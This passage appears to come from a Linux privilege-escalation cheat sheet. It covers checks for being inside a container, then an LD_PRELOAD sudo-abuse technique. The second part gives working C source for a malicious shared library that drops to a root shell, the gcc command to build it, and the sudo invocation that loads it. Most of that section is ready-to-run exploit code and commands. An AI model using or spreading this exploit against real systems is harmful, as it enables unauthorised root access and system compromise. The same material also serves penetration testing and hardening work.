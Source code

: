 ### ### Container & Namespace Enumeration
* **Purpose:** Determine if you are inside a container (like Docker, LXC) and identify potential escape vectors.
* **Commands:**
    ```bash
    # Check the cgroups, a strong indicator of being in a container
    cat /proc/1/cgroup

    # The '.dockerenv' file exists at the root of Docker containers
    ls -l /.dockerenv

    # Check for capabilities, which are often restricted in containers
    capsh --print
    ```

---

## ## 2. Sudo & SUID/SGID Deep Dives

Go beyond GTFOBins by exploiting the environment and interactions of privileged binaries.

### ### Advanced Sudo Abuse: LD_PRELOAD
* **What it is:** If `sudo -l` shows that the `LD_PRELOAD` environment variable is preserved, you can force a command run via `sudo` to load a malicious shared library before any others, executing your code as root.
* **Find:**
    ```bash
    sudo -l | grep "env_keep.*LD_PRELOAD"
    ```
* **Exploit:**
    1.  Create a malicious shared library C file (`preload.c`):
        ```c
        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>

        void _init() {
            unsetenv("LD_PRELOAD");
            setgid(0);
            setuid(0);
            system("/bin/bash -p");
        }
        ```
    2.  Compile it:
        ```bash
        gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /path/to/preload.c
        ```
    3.  Run a sudo command with `LD_PRELOAD` pointing to your library:
        ```bash
        sudo LD_PRELOAD=/tmp/preload.so <command_from_sudo_-l>
        ```
